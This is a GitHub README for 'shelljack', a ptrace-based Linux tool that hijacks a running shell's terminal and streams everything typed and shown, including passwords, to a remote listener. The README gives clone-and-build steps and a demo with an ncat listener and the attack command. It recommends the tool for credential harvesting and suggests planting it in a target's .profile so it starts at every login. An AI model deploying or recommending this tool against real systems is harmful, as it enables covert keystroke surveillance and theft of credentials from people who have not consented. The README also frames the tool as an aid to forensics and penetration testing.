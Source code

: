 # shelljack #

_shelljack_ is a [computer surveillance](http://en.wikipedia.org/wiki/Computer_surveillance) tool designed to capture [Linux](http://en.wikipedia.org/wiki/Linux) [command-line](http://en.wikipedia.org/wiki/Command_line) interactions in real-time.

**What exactly is "shelljacking"?**

This is the term I use to describe a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). This technique embeds the attacker between the target user and their [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29). From this position the attacker is able to inspect and capture all [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but will also return the output from the command line as well. In addition to the data being captured, it is also forwarded to a [remote listener](http://en.wikipedia.org/wiki/Netcat) for analysis in real time. 

This embedded position allows the attacker to capture *all* of the traffic that crosses the terminal. *This includes child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of some Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that is completely legitimate, although often not well understood. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a ["sploit"](http://en.wikipedia.org/wiki/Sploit), it is a very handy tool designed to empower [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), [pentesters](http://en.wikipedia.org/wiki/Pentester), and educators.

**Is this a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ is a [user space](http://en.wikipedia.org/wiki/User_space) tool.

**Do I need to be root to use it?**

No. You need "appropriate permissions". This means that you will need the ability to execute code on the target host either as root or as the target user. 

**When would I ever need this?**

* As a forensic analyist, you can use _shelljack_ to perform surveillance on the target of your investigation (after you've recieved the appropriate authority to do so from the heads of your Security, Legal, and HR teams, of course.)
* As a pentester who has gained execution as a user, you can now shelljack that account for further reconnaissance and credential harvesting.
* As a sysadmin, or other educator, _shelljack_ is useful for publicly demonstrating the importance of sane file permissions as well as other system configuration issues.

**How does it work?**

_shelljack_ is a [malicious](http://en.wikipedia.org/wiki/Malware) [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses [ptrace](http://en.wikipedia.org/wiki/Ptrace) to insert itself between a shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Because _shelljack_ uses the Linux ptrace interface to inject assembly language [syscalls](http://en.wikipedia.org/wiki/Syscall) into a target process, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

**Please tell me more about this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

* ptrace is the debugging interface provided by the Linux kernel. It is a *very* powerful tool, and the aspiring hacker would do well to study it. The best introduction I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

* A solid understanding of [tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29) fundamentals is necessary to fully understand the Unix / Linux command line. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Ncat](http://nmap.org/ncat/) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running the [tty](http://linux.die.net/man/1/tty) command in these examples to demonstrate which terminal the various commands are being run in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ ncat -k -l localhost 9999

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch _shelljack_ against the target shell:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

That was it! If we go back to the listener, we will now see all of the I/O come through the listener as it is typed into the target shell. For further evidence of this, lets examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It is now in place to collect the traffic and happily forward you a copy of everything it sees, including input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal at all. (e.g. passwords)

Also note, _shelljack_ was designed with the ability to attack the shell that launches it. This makes it ideal to call from the target's login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping of Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process. Note that this only affects child processes that exist at the time of the attack. New processes will inherit their parents (shelljacked) [file descriptors](http://en.wikipedia.org/wiki/File_descriptor).

# Similar Works #

While _shelljack_ was written independent of any other codebase, I did come across several other projects during my research that use similar techniques. These projects explore both ptrace code injection as well as terminal mangling. If this is an area that interests you, these projects are worth studying.

* [retty](http://pasky.or.cz/dev/retty/) is a tiny tool that lets you attach processes running on other terminals.
* [neercs](http://caca.zoy.org/wiki/neercs) allows you to detach a session from a terminal.
* [injcode](https://github.com/ThomasHabets/injcode) injects code into a running process.
* [reptyr](http://blog.nelhage.com/2011/02/changing-ctty/) takes a process that is currently running in one terminal, and transplants it to a new terminal.

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

